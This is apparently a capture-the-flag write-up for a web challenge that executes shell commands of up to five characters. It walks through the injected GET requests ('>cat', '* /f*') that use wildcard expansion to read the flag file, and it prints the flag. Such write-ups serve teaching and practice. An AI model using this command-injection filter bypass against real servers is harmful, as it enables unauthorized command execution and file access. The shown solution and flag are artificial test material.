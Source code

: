 # Hackme
**Category: Web**

In this challenge we can execute any shell command as long as it is 5 characters or less.

First, we can execute a command to find where the flag file is:

`GET /?cmd=ls+/`

```
bin
dev
etc
flag.txt
...
```

We can do some trickery with files to craft a command that can open this flag. First, let's create an empty file named `cat`:

`GET /?cmd=>cat`

Let's make sure that worked:

`GET /?cmd=ls`
```
cat
```

We can use wildcard expansion to use this as a command. (A payload of `* file` would be expanded to `cat file` since `cat` is the only file in the directory).

`GET /?cmd=*+/f*`
```
flag{ju57_g0tt@_5pl1t_Em3012}
```